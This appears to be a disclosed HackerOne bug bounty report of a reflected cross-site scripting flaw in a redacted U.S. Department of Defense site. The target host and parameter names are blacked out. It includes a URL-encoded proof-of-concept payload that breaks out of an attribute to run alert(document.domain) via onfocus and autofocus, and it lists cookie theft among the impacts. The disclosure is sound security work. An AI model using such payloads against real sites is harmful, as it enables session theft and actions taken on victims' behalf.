 # Reflected XSS at https://█████ via "██████████" parameter

## Report Details
- **Report ID**: 1457546
- **URL**: https://hackerone.com/reports/1457546
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2022-01-21T16:38:51.751Z
- **Disclosed**: 2022-02-14T21:21:37.731Z

## Reporter
- **Username**: pelegn
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
There is Reflected Cross site scripting issue at the following url:

https://█████

Proof Of Concept

https://████████?█████=%22onfocus%3d%22alert(document.domain)%22autofocus%3d%22&█████████████████████=Search

████

Best Regards
@pelegn

## Impact

Cookies Exfiltration
SOAP Bypass
CORS Bypass
Executing javascript on the victim behalf

## System Host(s)
████████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Navigate to https://████?███████=%22onfocus%3d%22alert(document.domain)%22autofocus%3d%22&█████████████████=Search

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments

